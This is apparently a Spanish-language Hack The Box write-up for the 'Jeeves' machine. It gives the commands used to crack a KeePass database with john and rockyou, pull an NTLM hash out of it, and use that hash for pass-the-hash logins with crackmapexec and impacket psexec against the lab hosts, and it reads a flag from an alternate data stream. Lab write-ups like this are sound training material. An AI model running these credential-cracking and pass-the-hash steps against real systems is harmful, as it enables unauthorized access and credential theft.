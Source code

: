 # Jeeves-HTB


## NMAP 

![image](https://github.com/gecr07/Jeeves-HTB/assets/63270579/80858071-c2b7-4e78-b9b7-45587dc34548)

el puerto 80 es un rabbit hole

## RCE

Buscamos en hacktricks lo mas comun de jenkins y lo que vimos es que se pueden ejecutar comandos de varias maneras...

![image](https://github.com/gecr07/Jeeves-HTB/assets/63270579/3be34640-d0fb-4f22-9dc3-657502160678)


### Windows exploit suggester Next generation

WES-NG is a tool based on the output of Windows' systeminfo utility which provides the list of vulnerabilities the OS is vulnerable to, including any exploits for these vulnerabilities. Every Windows OS between Windows XP and Windows 11, including their Windows Server counterparts, is supported.

> https://github.com/bitsadmin/wesng

Tiene la capacidad de con el output del systeminfo genera las vulns pero da muchos falsos positivos.

## Priv esca

Buscando tenemos un archivo de keepass ***.kdbx***

```
keepass2john CEH.kdbx

john -w=/usr/share/wordlists/rockyou.txt hash

```

Vamos a usar el keepass cli instalalo en kali como cualquier paquete.


```
kpcli --kdb CEH.kdbx
## Buscar todo los pass
find .
# mostramos dependiendo del numero 
 show -f 0
```

![image](https://github.com/gecr07/Jeeves-HTB/assets/63270579/40423b6b-98f1-4120-9165-999406ac0309)

Buscando todas las credenciales encontramos un hash que parece ser ntlm

```
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00

```

Solo como cultura la primera parte es el hash del espacio en blanco (aad3b435b51404eeaad3b435b51404ee). Con crackmapexec podemos probar con pass the hash a ver si es el hash del Administrator.

![image](https://github.com/gecr07/Jeeves-HTB/assets/63270579/7ede367e-3870-4215-9e41-0d764c1ee281)


```
crackmapexec smb 10.129.185.202 -u 'Adminsitrator' -H e0fb1fb85756c24235ff238cbe81fe00
/usr/share/doc/python3-impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@10.129.16.56 cmd.exe
```


## Alternative data streams

![image](https://github.com/gecr07/Jeeves-HTB/assets/63270579/6edd59cf-330a-4f51-810d-14e8c3ede5b6)


Es una manera de esconder cosas y se ve algo como esto:


Para listar este tipo de archivos

```
dir /R
more < hm.txt:root.txt

```


































